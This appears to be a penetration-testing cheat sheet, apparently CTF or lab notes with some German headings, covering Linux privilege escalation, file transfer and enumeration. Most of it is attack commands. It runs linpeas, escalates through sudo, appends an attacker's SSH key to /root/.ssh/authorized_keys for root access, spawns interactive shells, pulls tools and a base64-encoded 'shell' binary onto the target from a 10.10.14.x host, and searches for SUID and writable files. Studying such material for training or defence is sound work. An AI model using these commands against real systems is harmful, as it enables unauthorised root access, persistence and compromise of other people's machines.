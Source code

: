 ### PrivEsc

{% code overflow="wrap" fullWidth="false" %}
```
./linpeas.sh                   # Run `linpeas` script to enumerate remote server
sudo -l                        # List available `sudo` privileges
sudo -u user /bin/echo Hello World!  # Run a command with `sudo`
sudo su -                     # Switch to root user (if we have access to `sudo su`)
sudo su user -                # Switch to a user (if we have access to `sudo su`)
ssh-keygen -f key            # Create a new SSH key
echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys  # Add the generated public key to the user
ssh root@10.10.10.10 -i key  # SSH to the server with the generated private key

#Alternative Shell Access
sh -c /bin/sh -i             # Alternative shell access
/bin/sh -i                  # Alternative shell access
sudo -i                          # Alternative shell access
sh -c uname -a; w; id; /bin/sh -i  # Gather system info and get shell
```
{% endcode %}

### Dateitransfer

{% code overflow="wrap" fullWidth="false" %}
```
python3 -m http.server 8000                  # Start a local webserver
wget http://10.10.14.1:8000/linpeas.sh        # Download a file on the remote server from our local machine
curl http://10.10.14.156:8000/linpeas.sh -o linpeas.sh  # Download a file on the remote server from our local machine
scp linenum.sh user@remotehost:/tmp/linenum.sh  # Transfer a file to the remote server with `scp` (requires SSH access)
base64 shell -w 0                              # Convert a file to `base64`
echo f0VMR...SNIO...InmDwU | base64 -d > shell  # Convert a file from `base64` back to its original
md5sum shell                                   # Check the file's `md5sum` to ensure it converted correctly
```
{% endcode %}

### find

{% code fullWidth="false" %}
```
find / -user root -perm -4000 -exec ls -ldb {} \;  # Find files with SUID permission
find / -type d -maxdepth 2 -writable                 # Writable directories
find / -type f -maxdepth 2 -writable                 # Writable files

# Search all files in the current folder and the folder below and
# search for the specified term.
# If found, the file and the line of the found file will be displayed
find . -type f -print0 | xargs -0 grep -Hn "meinWort"
```
{% endcode %}
